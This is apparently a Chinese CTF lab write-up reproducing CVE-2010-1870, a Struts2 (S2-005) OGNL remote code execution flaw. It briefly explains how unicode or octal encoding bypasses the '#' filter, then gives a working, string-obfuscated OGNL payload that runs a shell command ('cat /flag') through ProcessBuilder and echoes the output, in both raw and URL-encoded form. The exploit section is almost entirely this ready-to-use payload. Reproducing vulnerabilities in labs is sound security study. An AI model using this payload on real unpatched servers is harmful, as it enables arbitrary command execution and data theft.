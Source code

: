 ```yaml
---
title: CVE-2010-1870【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(u0023)或8进制(43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开。    

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2010-1870)

## 2. 漏洞分析    

**原理：**[CVE-2010-1870 S2-005复现 - 美式加糖 - 博客园](https://www.cnblogs.com/peace-and-romance/p/15626196.html)

**利用：**[CVE-2010-1870 S2-005 远程代码执行漏洞-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2197844) 

## 3. 漏洞复现

**payload：**

```Java
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#s=new java.util.Scanner((new java.lang.ProcessBuilder('cat /flag'.toString().split('\\s'))).start().getInputStream()).useDelimiter('\\AAAA'),#str=#s.hasNext()?#s.next():'',#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#resp.getWriter().println(#str),#resp.getWriter().flush(),#resp.getWriter().close()}
```

**url 编码后**

```
redirect%3A%24%7B%23req%3D%23context.get%28%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletReq%27%2B%27uest%27%29%2C%23s%3Dnew%20java.util.Scanner%28%28new%20java.lang.ProcessBuilder%28%27cat%20%2Fflag%27.toString%28%29.split%28%27%5C%5Cs%27%29%29%29.start%28%29.getInputStream%28%29%29.useDelimiter%28%27%5C%5CAAAA%27%29%2C%23str%3D%23s.hasNext%28%29%3F%23s.next%28%29%3A%27%27%2C%23resp%3D%23context.get%28%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletRes%27%2B%27ponse%27%29%2C%23resp.setCharacterEncoding%28%27UTF-8%27%29%2C%23resp.getWriter%28%29.println%28%23str%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29%7D
```

![flag.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310041204715.png)
